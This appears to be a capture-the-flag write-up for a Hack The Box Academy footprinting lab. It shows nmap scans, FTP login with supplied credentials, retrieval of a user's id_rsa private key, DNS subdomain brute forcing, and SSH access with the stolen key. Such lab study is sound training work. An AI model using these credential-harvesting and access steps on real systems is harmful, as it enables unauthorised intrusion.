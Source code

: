 # Footprinting Lab - Easy  

[Footprinting Lab - Easy](https://academy.hackthebox.com/module/112/section/1078)  

>We were commissioned by the company `Inlanefreight` Ltd to test three different servers in their internal network. 
>The first server is an internal DNS server that needs to be investigated. 
>The client wants to know what information we can get out of these services and how this information could be used against its infrastructure. 
>Goal is to gather as much information as possible about the server and find ways to use that information against the company. 
>However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production.  
  
>Additionally, our teammates have found the following credentials `ceil:qwer1234`,
>and they pointed out that some of the company's employees were talking about SSH keys on a forum.  

>The administrators have stored a `flag.txt` file on this server to track our progress and measure success.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap 10.129.53.210                                        

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
2121/tcp open  ccproxy-ftp
```  

>NMAP Service, Version , OS and default scripts scan results:  

```
sudo nmap -p 21,22,53,2121 -sCV -A -O 10.129.53.210             

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.53.210]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp   open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
53/tcp   open  domain       ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
2121/tcp open  ccproxy-ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Ceil's FTP) [10.129.53.210]
```  

>Observe that port `2121` PrFTPD service read comment about `Ceil` FTP.  

### FTP

>Secure [FTP](https://academy.hackthebox.com/module/112/section/1066) service enumeration with provided `Ceil` credentials.

```
openssl s_client -connect 10.129.53.210:21 -starttls ftp

ftp 10.129.53.210 2121

Username:ceil
Password:qwer1234

ls -al
cd .ssh
get id_rsa
```  

### DNS

>[Domain Name System - DNS](https://academy.hackthebox.com/module/112/section/1069) Footprinting and enumeration.  

```
dig ns inlanefreight.htb @10.129.53.210
```  

>Subdomain DNS Brute Forcing.  

```
dnsenum --dnsserver 10.129.53.210 --enum -p 0 -s 0 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
```  

## Foothold  

>SSH as the user `Ceil` with their discovered `id_rsa` key file from the FTP service on port `2121`.  

```
chmod 600 ceil-ssh.txt

ssh ceil@10.129.53.210 -i ceil-ssh.txt
```  


